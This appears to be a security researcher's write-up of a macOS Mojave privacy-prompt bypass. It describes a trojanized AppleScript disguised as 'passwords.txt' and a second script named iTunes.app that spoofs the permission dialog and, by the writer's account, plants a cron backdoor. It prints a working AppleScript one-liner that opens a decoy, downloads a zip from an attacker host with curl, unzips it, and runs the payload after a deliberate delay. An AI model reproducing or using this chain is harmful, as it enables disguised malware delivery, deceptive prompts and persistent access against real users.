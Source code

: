 The attacker is attempting to use a [trojanized AppleScript](https://null-byte.wonderhowto.com/how-to/hacking-macos-create-fake-pdf-trojan-with-applescript-part-2-disguising-script-0184706/) that appears as an ordinary text file to modify protected data. The target is being social engineered into opening the file called "passwords.txt," which presumably contains content interesting enough to make someone open the file.

Mojave identifies the nefarious activity happening in the background and immediately alerts the target user. The new security feature prevented part of the attack. Well done, Mojave, well done.

This got me thinking about ways of circumventing this security feature. After a bit of trial and error, I formulated a simple attack that performs the following activity.

<img src="img/bypass-privileges-prompt02.gif" width="773"> 

It _appears_ as if iTunes is requesting administrative access to the user's data. If the target clicks the "OK" button, the payload will execute. It's not uncommon for users of macOS to experience iTunes and App Store notifications, so it seemed like an ideal social engineering tactic.

The other thing to notice is how much time there is between `TextEdit` and `iTunes` opening. The delay is intentional, to further conceal the background activity. The goal is to execute the nefarious activity minutes (hours?) after the fake text file is opened. The more time placed between clicking the file and executing the payload, the less likely the target is of suspecting the fake `passwords.txt` file as the origin of the activity.

There are two AppleScripts used in the attack. The first is disguised to appear as a regular text file and will open a real file. It will then immediately download, decompress, and execute a second AppleScript which embeds a persistent backdoor into macOS by attempting to add a cronjob.

The use of a second AppleScript is how the application name in the security notification is spoofed. MacOS doesn't specify which "iTunes" app is requesting access to protected data. So **any** application named "iTunes.app" will appear in the security notification as such.

### First AppleScript Technical Details

Below is the one-liner used in the first AppleScript. There are multiple commands chained together here using the `&&` and `;` operators.

```applescript
do shell script "echo 'my password is 123456' > /tmp/passwords.txt && open /tmp/passwords.txt -a TextEdit && p='/tmp/iTunes'; curl -s http://192.168.1.XX/iTunes.zip -o $p.zip && unzip $p.zip -d /tmp/ && chmod 7777 $p.app; sleep 60 && open -a iTunes.app && open $p.app"
```
